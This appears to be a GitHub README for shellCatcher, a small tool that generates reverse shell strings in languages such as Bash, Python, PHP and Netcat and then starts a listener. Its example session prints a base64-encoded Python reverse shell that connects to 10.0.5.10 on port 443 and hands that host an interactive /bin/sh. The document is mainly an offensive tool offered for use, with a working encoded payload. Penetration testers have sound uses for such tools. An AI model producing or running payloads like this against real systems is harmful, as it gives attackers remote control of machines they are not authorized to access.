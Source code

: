 shellCatcher
============

Small tool that spits out a reverse shell string in different languages, and spins up a listener that waits for its connection


example usage
============

Welcome to shellCatcher!
Please select a language to use from the list below:

[0] Bash
[1] PERL
[2] Python
[3] Netcat
[4] PHP
[5] Ruby
[6] Java
[7] xterm

> 2

Please insert your IP address and port number
ex: 192.168.0.10:443

\> 10.0.5.10:443

Select an encoding. If you don't want one, select 0:
[0] None
[1] URL
[2] Base64

\> 2

Reverse Shell String
\========================================
cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC41LjEwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=
\========================================

Spawning the listener on port 443
Waiting for connection...

